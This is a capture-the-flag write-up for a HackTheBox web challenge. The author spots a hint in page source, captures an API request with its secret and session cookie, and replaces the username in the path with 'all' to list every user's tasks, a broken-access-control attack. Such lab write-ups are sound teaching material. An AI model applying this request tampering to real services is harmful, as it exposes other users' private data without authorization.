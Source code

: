 # baby todo or not todo

Completed: Yes
Platform: HackTheBox

Well, again we have a hint in Title. Broken access control...

Look at page source:

```html
<script>
// don't use getstatus('all') until we get the verify_integrity() patched
const update = () => getTasks('user41E2dD0b')
update()
setInterval(update, 3000)
</script>
```

I captured a request to API to get all tasks of specific user:

```
GET /api/list/user4AC65f3C/?secret=ECedD37CAA9acA7 HTTP/1.1
Host: 188.166.173.208:31691
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://188.166.173.208:31691/
Connection: close
Cookie: session=eyJhdXRoZW50aWNhdGlvbiI6InVzZXI0QUM2NWYzQyJ9.YPAtMg.SWjHCH_XJeiuYAb16HT0lUG_6yw
```

So, getstatus and getTasks are similar in some way. Thus, I changed user to all and got all entries.

```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 1617
Server: made with <3 by makelarides
Vary: Cookie
Date: Thu, 15 Jul 2021 12:53:24 GMT

[{"assignee":"admin","done":false,"id":1,"name":"how are you seeing this???"},{"assignee":"admin","done":true,"id":2,"name":"give makelaris and jr a kiss <3"},{"assignee":"admin","done":false,"id":3,"name":"do homework"},{"assignee":"admin","done":false,"id":4,"name":"take groceries"},{"assignee":"admin","done":true,"id":5,"name":"world Domination"},
```